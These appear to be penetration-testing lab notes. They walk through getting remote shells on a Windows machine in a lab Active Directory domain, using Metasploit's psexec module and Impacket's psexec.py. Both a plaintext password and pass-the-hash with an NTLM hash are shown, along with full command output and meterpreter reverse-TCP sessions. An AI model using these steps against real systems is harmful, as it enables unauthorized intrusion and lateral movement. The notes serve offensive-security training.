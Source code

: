 1. We can get shell using a password and a username 

![](https://i.imgur.com/NZjEBIr.png)

2. We can gain shell access with the SAM dumped hash we got from the smb relay attack

![](https://i.imgur.com/wWJPEWY.png)

> Metasploit is mostly noisy which might get picked up by an antivirus, that is why we have other tools like `psexec.py` which is a little bit noisy
> 

1. Same as we can gain access with password and usernames using metasploit, we can use `psexec.py`

![](https://i.imgur.com/RrMmz5y.png)

2. We can also get shell though hashes

![](https://i.imgur.com/FqMWCNX.png)

# Practical

1. Metasploit

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ msfconsole
[*] Starting the Metasploit FraMework console...%

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.157    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.0.166
rhosts => 192.168.0.166
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

```shell
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

It is better to choose `Native upload` for the targets if you have failed on `Automatic` 

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445|MARVEL.local as user 'fcastle'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 1 opened (192.168.0.157:4444 -> 192.168.0.166:56193) at 2023-09-16 16:25:05 -0400

meterpreter > 
```

Now we need to do a hash attack so background this session

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > 
```

```shell
msf6 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf6 exploit(windows/smb/psexec) > unset smbdomain
Unsetting smbdomain...
[!] Variable "smbdomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear smbdomain
```

Now we need our hash, Note that the **NT** part of this hash is the most important, but we need to select both the **LM** and **NT** part for this attack

![](https://i.imgur.com/c8XeAIx.png)

```shell
msf6 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
smbpass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445 as user 'administrator'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 3 opened (192.168.0.157:4444 -> 192.168.0.166:54623) at 2023-09-16 17:47:14 -0400

meterpreter > 
```

2. Psexec.py

We can get shell on target system, using this syntax :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:'Password1'@192.168.0.166

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file fsodQFwB.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service fqSt on 192.168.0.166.....
[*] Starting service fqSt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We can use the `exit` command to close this section

Sometimes we might not be able to pass our password as a string directly, we can just remove the password from our command and things would be fine, as we can see we are prompted for a password below

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:@192.168.0.166  

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file aDwPMykR.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service JZWK on 192.168.0.166.....
[*] Starting service JZWK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

We could also connect to our target with hashes

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py administrator@192.168.0.166 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file UaXfeiHM.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service SCMQ on 192.168.0.166.....
[*] Starting service SCMQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```